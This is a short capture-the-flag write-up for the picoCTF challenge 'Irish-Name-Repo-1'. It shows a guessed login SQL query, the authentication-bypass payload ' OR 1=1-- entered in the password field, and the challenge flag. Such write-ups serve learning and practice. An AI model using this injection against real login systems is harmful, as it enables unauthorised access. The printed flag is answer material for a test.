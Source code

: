 # Irish-Name-Repo-1

### Connection
```
	https://jupiter.challenges.picoctf.org/problem/33850/
```
### Hint
```
	There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
	Try to think about how the website verifies your login.
```

### Solving the Problem
Based on the hint I have a guess that this is a SQL-injection
Putting in admin:admin returns "Login Failed"
Putting in admin:' doesn't return anything. This is wierd behavior.
I have a hunch that the format of the SQL query is:
```SQL
	SELECT * FROM users WHERE username='.$username.' AND password='.$password.';
```

I try "' OR 1=1--" in the password field so the SQL query will be
```SQL
	SELECT * FROM users WHERE username='admin' AND password='' OR 1=1--'
```  

### Flag
```
	picoCTF{s0m3_SQL_f8adf3fb}
```

Things I learned
```
	Nothing this challenge was too easy with my current skill set
```
